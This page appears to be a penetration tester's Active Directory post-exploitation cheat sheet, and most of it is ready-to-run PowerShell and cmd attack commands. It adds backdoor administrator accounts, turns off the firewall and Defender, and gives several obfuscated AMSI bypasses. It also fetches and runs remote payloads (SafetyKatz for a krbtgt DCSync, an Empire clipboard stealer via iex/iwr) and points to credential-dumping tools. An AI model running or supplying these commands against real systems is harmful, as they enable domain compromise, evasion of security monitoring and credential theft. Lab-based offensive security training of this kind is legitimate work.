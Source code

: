 ```yaml
---
description: Active Directory Post Exploitation Checklists
---
```


# Post Exploitation

### Add Local Administrator

Add user **asuka** and add to RDP Users

{% code overflow="wrap" %}
```powershell
net user asuka 'TrYh@rdeR!' /add
net localgroup "Remote Desktop Users" asuka /add # RDP access
net localgroup "Administrators" asuka /add
net localgroup "Remote Management Users" asuka /add # WinRM access

# Then access with xfreerdp
xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:support.htb \
/u:asuka /p:'TrYh@rdeR!' +nego
# or using rdesktop
rdesktop support.htb
```
{% endcode %}

### Enable RDP Access

{% code overflow="wrap" %}
```powershell
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -
name "fDenyTSConnections" -value 0
Enable-NetFirewallRule -DisplayGroup "Remote Desktop"

# In case powershell is not enabled (like in old machine)
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```
{% endcode %}

### Turn Off Firewall

{% code overflow="wrap" %}
```powershell
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False
# or
netsh advfirewall set allprofiles state off
```
{% endcode %}

### Disable Defender Real Time Monitoring

{% code overflow="wrap" %}
```powershell
Get-MpComputerStatus
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
Set-MpPreference -ExclusionExtension "ps1"
Set-MPPreference -DisableBehaviorMonitoring $true

# Disable AMSI (set to 0 to enable)
Set-MpPreference -DisableScriptScanning 1 

# Add folder exclusion (in case tamper protection is enabled)
Add-MpPreference -ExclusionPath C:\Mimikatz\
# Check all exclusion folder
Get-MpPreference | Select-Object -Property ExclusionPath -ExpandProperty ExclusionPath

# Disable Real Time Protection
reg delete "HKLM\Software\Policies\Microsoft\Windows Defender" /f
reg add "HKLM\Software\Policies\Microsoft\Windows Defender" /v "DisableAntiSpyware" /t REG_DWORD /d "1" /f
reg add "HKLM\Software\Policies\Microsoft\Windows Defender" /v "DisableAntiVirus" /t REG_DWORD /d "1" /f
```
{% endcode %}

### Bypassing PowerShell Security

Using InviShell - https://github.com/OmerYa/Invisi-Shell

{% code overflow="wrap" %}
```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
```
{% endcode %}

### AMSI Bypass

Detection: [https://github.com/RythmStick/AMSITrigger](https://github.com/RythmStick/AMSITrigger)

{% tabs %}
{% tab title="2023" %}
{% code overflow="wrap" %}
```powershell
$a='si';$b='Am';$Ref=[Ref].Assembly.GetType(('System.Management.Automation.{0}{1}Utils'-f $b,$a)); $z=$Ref.GetField(('am{0}InitFailed'-f$a),'NonPublic,Static');$z.SetValue($null,$true)
```
{% endcode %}
{% endtab %}

{% tab title="CRTP" %}
{% code overflow="wrap" %}
```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```
{% endcode %}
{% endtab %}

{% tab title="Base64" %}
{% code overflow="wrap" %}
```powershell
[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)
```
{% endcode %}
{% endtab %}
{% endtabs %}

### OPSEC with Loader

{% code overflow="wrap" %}
```powershell
C:\AD\Tools\Loader.exe -path http://172.16.100.67/SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"
```
{% endcode %}

### Get-ClipboardContents

Monitors the clipboard on a specified interval for changes to copied text.

{% code overflow="wrap" %}
```powershell
iex (iwr -usebasicparsing https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/collection/Get-ClipboardContents.ps1);Get-ClipboardContents
```
{% endcode %}

### WADComs

WADComs is an interactive cheat sheet, containing a curated list of offensive security tools and their respective commands, to be used against Windows/AD environments.

* [https://wadcoms.github.io/](https://wadcoms.github.io/)

### Dump Saved Password

* [BrowserStealer](https://github.com/SaulBerrenson/BrowserStealer)
* [LaZagne](https://github.com/AlessandroZ/LaZagne)
* Mimikatz

### TCP Port Scanner

{% code overflow="wrap" %}
```powershell
1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("172.16.8.1",$_)) "Port $_ is open!"} 2>$null # powershell
```
{% endcode %}

### Ping Sweep

{% code overflow="wrap" %}
```powershell
for /l %i in (1,1,254) do @ping -n 1 -w 100 172.16.8.%i > nul && echo 172.16.8.%i is up. # cmd
```
{% endcode %}

### Inveigh

Responder, but in Powershell/C#

* [https://github.com/Kevin-Robertson/Inveigh](https://github.com/Kevin-Robertson/Inveigh)

### MDE Enum

How to extract Windows Defender Exclusions and Attack Surface Reduction (ASR) rules without Admin privileges

* [https://github.com/0xsp-SRD/MDE\_Enum](https://github.com/0xsp-SRD/MDE\_Enum)

{% code overflow="wrap" %}
```bash
# local
mde-enum.exe /local /paths /access

# remote
mde-enum.exe <ip> <username> <password> <domain> /paths
# i.e
.\mde-enum.exe 172.16.8.148 asuka Asuka@1337 child.zerobyte.lab /paths
```
{% endcode %}

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEg-s8CjvYH04yAIm9dffLa8xRTnARSQR9gd8WKp6fZxTrQEMkCc-NAlewZB_1H5nAQzO4zxKf1FUQTfKLGKoTfTSIs6L3FmkbbMoXZggddyNVk5SlYwrqshBUKujEWox-CIOs25DspgkCVe9FQwcN8owuUqLZfh1JMlr0b3qawe1JMJMkyYbO_58cnPRX8/s872/mde-enum.png" alt=""><figcaption><p>MDE Enum</p></figcaption></figure>

Or, use this Powershell script.

```powershell
$logName = "Microsoft-Windows-Windows Defender/Operational"
$eventID = 5007
$events = Get-WinEvent -LogName $logName | Where-Object { $_.Id -eq $eventID }
$exclusionEvents = $events | Where-Object { $_.Message -match "Exclusions" }
$pattern = "HKLM\\SOFTWARE\\Microsoft\\Windows Defender\\Exclusions\\Paths\\[^\s]+"
$exclusionEvents | ForEach-Object {
    if ($_.Message -match $pattern) {
        $matches[0]
    }
}
```

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEizy7s-PGsq5vpXfy6QMsH7TTl3qm5lWLyL8oNYRVVa3vIjHK4EAg3gKIszCqdCjjm-LRAGNGmfpWkBvpRAg8MwWaL2J-2XKo6HdmwJpynygsbkUXmyg0M3ikgGyt5Hq1gga3GQA04CDqoMqRW6NZuFWP-D2rTnHrIrZNuszuphAH56xwx2x1XJtpGkaBw/s742/mde-enum-powershell.png" alt=""><figcaption><p>Enumerate Defender Exclusions</p></figcaption></figure>

Reference:

* [https://x.com/VakninHai/status/1796628601535652289](https://x.com/VakninHai/status/1796628601535652289)

### Other Useful Stuff

* [https://github.com/r3motecontrol/Ghostpack-CompiledBinaries](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)
* [https://github.com/Flangvik/SharpCollection](https://github.com/Flangvik/SharpCollection)

